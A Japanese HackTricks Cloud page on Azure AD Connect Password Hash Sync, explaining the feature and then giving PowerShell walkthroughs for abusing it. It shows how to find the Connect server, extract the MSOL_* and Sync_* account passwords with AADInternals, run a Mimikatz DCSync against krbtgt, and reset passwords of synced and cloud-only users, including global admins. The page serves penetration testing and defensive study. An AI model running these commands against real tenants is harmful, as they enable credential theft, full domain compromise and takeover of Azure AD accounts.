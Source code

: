 # Az - PHS - パスワードハッシュ同期

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>でAWSハッキングをゼロからヒーローまで学ぶ</strong></a><strong>！</strong></summary>

HackTricks をサポートする他の方法:

* **HackTricks で企業を宣伝したい** または **HackTricks をPDFでダウンロードしたい** 場合は [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop) をチェックしてください！
* [**公式PEASS＆HackTricksスワッグ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な [**NFTs**](https://opensea.io/collection/the-peass-family) のコレクションを見つける
* **💬 [Discordグループ](https://discord.gg/hRep4RUj7f)** または [telegramグループ](https://t.me/peass) に **参加** または **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live) **をフォロー** してください。
* **ハッキングトリックを共有するには、** [**HackTricks**](https://github.com/carlospolop/hacktricks) と [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) のGitHubリポジトリにPRを提出してください。

</details>

## 基本情報

[公式ドキュメントから：](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/whatis-phs) **パスワードハッシュ同期** は、ハイブリッドアイデンティティを達成するために使用されるサインイン方法の1つです。 **Azure AD Connect** は、オンプレミスのActive DirectoryインスタンスからクラウドベースのAzure ADインスタンスにユーザーのパスワードのハッシュのハッシュを同期します。

<figure><img src="../../../../.gitbook/assets/image (9) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

これは企業がオンプレミスADをAzure ADと同期させるために最も一般的に使用される方法です。

すべての **ユーザー** と **パスワードハッシュのハッシュ** がオンプレミスからAzure ADに同期されます。ただし、**クリアテキストのパスワード** または **元のハッシュ** はAzure ADに送信されません。\
さらに、**ビルトイン** セキュリティグループ（ドメイン管理者など...）はAzure ADに **同期されません**。

**ハッシュの同期** は **2分ごと** に行われます。ただし、デフォルトでは、Azure ADでは **パスワードの有効期限** と **アカウントの有効期限** は **同期されません**。そのため、**オンプレミスのパスワードが期限切れ**（変更されていない）のユーザーでも、古いパスワードを使用して **Azureリソースにアクセス** を続けることができます。

オンプレミスユーザーがAzureリソースにアクセスしようとすると、**認証はAzure ADで行われます**。

**PHS** は、**Identity Protection** や **AAD Domain Services** などの機能に必要です。

## ピボット

PHSが構成されると、いくつかの **特権アカウント** が自動的に **作成** されます:

* アカウント **`MSOL_<installationID>`** がオンプレミスADに自動的に作成されます。このアカウントには **Directory Synchronization Accounts** 役割が付与されます（[ドキュメント](https://docs.microsoft.com/en-us/azure/active-directory/users-groups-roles/directory-assign-admin-roles#directory-synchronization-accounts-permissions)を参照）これは、オンプレミスADで **レプリケーション（DCSync）権限を持っている** ことを意味します。
* Azure ADには **`Sync_<name of on-prem ADConnect Server>_installationID`** というアカウントが作成されます。このアカウントは、Azure ADで **任意のユーザーのパスワードをリセット** できます（同期されたユーザーまたはクラウドのみ）。

前述の2つの特権アカウントのパスワードは、**Azure AD Connectがインストールされているサーバー** のSQLサーバーに **保存されています。** 管理者はこれらの特権ユーザーのパスワードをクリアテキストで抽出できます。\
データベースは `C:\Program Files\Microsoft Azure AD Sync\Data\ADSync.mdf` にあります。

これらの特権ユーザーのパスワードを抽出することが可能で、そのうち1つは暗号化されているテーブルから構成を抽出することができます:

`SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent;`

**暗号化された構成** は **DPAPI** で暗号化されており、**オンプレミスADの `MSOL_*` ユーザーのパスワード** と **AzureADの Sync\_\* のパスワード** が含まれています。したがって、これらを侵害すると、ADおよびAzureADへの昇格が可能です。

これらの資格情報がどのように保存され、復号化されるかの詳細な概要については、[このトーク](https://www.youtube.com/watch?v=JEIR5oGCwdg)をご覧ください。

### **Azure AD Connectサーバーを見つける**

**Azure AD Connectがインストールされているサーバー** がドメインに参加している場合（ドキュメントで推奨されています）、次の方法で見つけることができます:
```powershell
# ActiveDirectory module
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" - Properties * | select SamAccountName,Description | fl

#Azure AD module
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```
### MSOL\_\* の乱用
```powershell
# Once the Azure AD connect server is compromised you can extract credentials with the AADInternals module
Get-AADIntSyncCredentials

# Using the creds of MSOL_* account, you can run DCSync against the on-prem AD
runas /netonly /user:defeng.corp\MSOL_123123123123 cmd
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt /domain:domain.local /dc:dc.domain.local"'
```
{% hint style="danger" %}
これらの資格情報を取得するために[**adconnectdump**](https://github.com/dirkjanm/adconnectdump)を使用することもできます。
{% endhint %}

### Sync\_\*を悪用する

**`Sync_*`**アカウントを侵害すると、グローバル管理者を含む任意のユーザーのパスワードを**リセット**することが可能です。
```powershell
# This command, run previously, will give us alse the creds of this account
Get-AADIntSyncCredentials

# Get access token for Sync_* account
$passwd = ConvertTo-SecureString '<password>' -AsPlainText - Force
$creds = New-Object System.Management.Automation.PSCredential ("Sync_SKIURT-JAUYEH_123123123123@domain.onmicrosoft.com", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds - SaveToCache

# Get global admins
Get-AADIntGlobalAdmins

# Get the ImmutableId of an on-prem user in Azure AD (this is the Unique Identifier derived from on-prem GUID)
Get-AADIntUser -UserPrincipalName onpremadmin@domain.onmicrosoft.com | select ImmutableId

# Reset the users password
Set-AADIntUserPassword -SourceAnchor "3Uyg19ej4AHDe0+3Lkc37Y9=" -Password "JustAPass12343.%" -Verbose

# Now it's possible to access Azure AD with the new password and op-prem with the old one (password changes aren't sync)
```
**クラウドのユーザーのパスワードを変更することも可能**です（予期しない場合でも）。
```powershell
# To reset the password of cloud only user, we need their CloudAnchor that can be calculated from their cloud objectID
# The CloudAnchor is of the format USER_ObjectID.
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID

# Reset password
Set-AADIntUserPassword -CloudAnchor "User_19385ed9-sb37-c398-b362-12c387b36e37" -Password "JustAPass12343.%" -Verbosewers
```
このユーザーのパスワードをダンプすることも可能です。

{% hint style="danger" %}
別のオプションは、**Sync**ユーザーが**権限を持っているサービス プリンシパルに特権権限を割り当て**、そのサービス プリンシパルにアクセスして特権昇格を行う方法です。
{% endhint %}

### シームレス SSO

PHSを使用したシームレス SSOを使用することが可能であり、他の悪用に対して脆弱です。以下で確認できます：

{% content-ref url="seamless-sso.md" %}
[seamless-sso.md](seamless-sso.md)
{% endcontent-ref %}

## 参考文献

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf](https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf)
* [https://www.youtube.com/watch?v=xei8lAPitX8](https://www.youtube.com/watch?v=xei8lAPitX8)

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）で</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>AWSハッキングをゼロからヒーローまで学ぶ</strong></a><strong>！</strong></summary>

HackTricks をサポートする他の方法：

* **HackTricks で企業を宣伝したい**、または **HackTricks をPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksのグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な [**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションを見つける
* 💬 [**Discord グループ**](https://discord.gg/hRep4RUj7f)や [**telegram グループ**](https://t.me/peass)に**参加**するか、**Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)を**フォロー**してください。
* **HackTricks**と**HackTricks Cloud**のGitHubリポジトリにPRを提出して、あなたのハッキングテクニックを共有してください。

</details>
